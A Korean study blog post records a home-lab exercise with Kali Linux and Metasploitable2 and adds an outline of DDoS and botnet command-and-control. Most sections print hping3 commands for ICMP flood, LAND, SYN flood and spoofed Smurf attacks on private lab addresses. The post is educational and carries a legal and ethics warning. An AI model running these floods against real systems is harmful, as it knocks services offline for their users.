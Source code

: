 ```yaml
---
title:  "Kali linux와 Metasploitable2 활용 DoS 공격 실습, DDoS 이론"
excerpt: "DoS Attack"

comments: true
categories: network-security
tags: [kali, metasploitable2, vmware, wireshark]
toc: true
toc_sticky: true

date: 2022-05-02-22:01
last_modified_at: 2022-05-02
---
```

### 주의 !!
* * *
해당 게시물은 공부를 하기 위해 작성된 글입니다.

아래 내용을 악의적으로 이용할 시 법적으로 처벌 받을 수 있습니다.

보안은 윤리의식도 매우 중요하답니다. 사용하기 전에 한번 더 생각 해보세요!

#### [3] DoS 공격 (Denial of Service : 서비스 거부 공격 / 서비스 방해 공격)
* * *
- 서버에 부하를 주어 정상적인 동작을 못하게 하는 것
- 대상 pc의 부하를 확인하는 명령어 : linux : top, windows : ctrl + shift + esc

##### ICMP를 이용한 공격 (Ping of Death, ICMP Flood)

- 5개의 오류메시지와 4쌍의 질의응답으로 구성 (13개의 종류)
- Destination unreachable, Time exeeded, echo request를 보내면 echo reply가 옴

```bash
$ kali : sudo hping3 --icmp -d 65000 -i u1000 192.168.5.129
```

- -d : 데이터 사이즈, -i : interval, u1000 : 1000 microsec, -a : 출발지 ip를 변경하는 옵션
- 65000 => 65000 / 1480 : 48조각
- hping3 : hacker's ping

![](../../assets/images/20220517-232821.png){: .center}

##### LAND Attack

- 출발지 IP 주소를 Target의 IP 조소로 지정한 Ping of Death
- -a 옵션으로 Source IP 를 변경 (target IP로)
- but 영원히 모르는건 아니다 why? 어디를 타고 왔는지 역추적 가능.
  
```bash
$ kali : sudo hping3 --icmp -d 65000 -i u1000 192.168.5.129 -a 192.168.5.129
```

![](../../assets/images/20220517-232904.png){: .center}

##### SYN Flooding (TCP)

- SYN 를 많이 보내서 웹서버 등이 정상 응답을 못하게 하는 공격
- SYN Flooding 공격은 포트를 지정해서 공격 ex) 80 web service port

![](../../assets/images/20220517-233006.png){: .center}

```bash
$ kali : sudo hping3 -S 192.168.5.129 -p 80 -i u1000
```

![](../../assets/images/20220517-233033.png){: .center}

##### Smurf Attack

- 출발지 IP를 Target으로 지정, 목적지 IP를 Direct Broadcast로 하는 Ping of Death
- ICMP Echo Request를 Broadcast로 뿌리면 해당 네트워크의 호스트들이 Echo Reply를 출발지로 보내려고 함
- 출발지는 Target의 IP 이므로 Target host로 같은 네트워크 내의 다른 PC들이 Echo Reply를 보내게 됨

``` bash
$ kali : sudo hping3 --icmp -d 65000 -i u1000 192.168.5.255 -a 192.168.5.129
```

![](../../assets/images/20220517-233220.png){: .center}

- 192.168.5.2 PC만 공격중 why? icmp_echo_ignore_broadcast 옵션이 1, broadcast echo 명령어를 무시하고있기 때문

![](../../assets/images/20220517-233247.png){: .center}

```bash
#  echo 관련된 환경변수를 확인하는 명령어
$ sudo sysctl -a | grep echo
# 환경변수를 write 하는 옵션
$ sudo sysctl -w net.ipv4.icmp_echo_ignore_broadcast=0
```

![](../../assets/images/20220517-233322.png){: .center}
- 192.168.5.128 에 해당 명령어를 추가했을때 공격에 가담한걸 확인할 수 있음 .

**Scanning vs DoS 차이?**
- scaning은 여러 포트를 보는 것 -> 응답이 있나 없나 확인
- DoS 는 한 포트만 조지는 것

#### DDoS 공격
* * *
**공격 단계**

- 관리가 소홀한 컴퓨터를 해킹해서 (C&C 프로그램을 설치 - Command & Control ) -> 30개 정도 확보
- Zombie로 감염시킬 악성코드 유포(맵핵 등과 같은 불법 프로그램) -> 2000대 ~ 3만대
- Zombie에 감염되면 C&C 에 자신이 감염되었음을 알림
- C&C에 Zombie 리스트 확보 됨 -> 판매 or 공격 시 활용
- Attacker는 C&C를 옮겨 다니면서 공격 명령을 내림

**보안 업체의 솔루션**

- 일부러 Zombie 에 감염을 시킴
- Zombie가 어디로 연락하는지 확인 -> Wireshark로 C&C IP 체크
- Zombie에게 신호를 보내는 C&C IP를 찾아서 차단

**DDoS 공격의 주기? 항상**

- 확인하는 사이트

- https://horizon.netscout.com/
- https://livethreatmap.radware.com/
- DDoS 공격은 사람이 하는 것이 아니고 Bot (자동화된 프로그램) 이 공격을 수행
- 암호화폐의 80%, 주식 거래의 70% 이상은 Bot이 거래함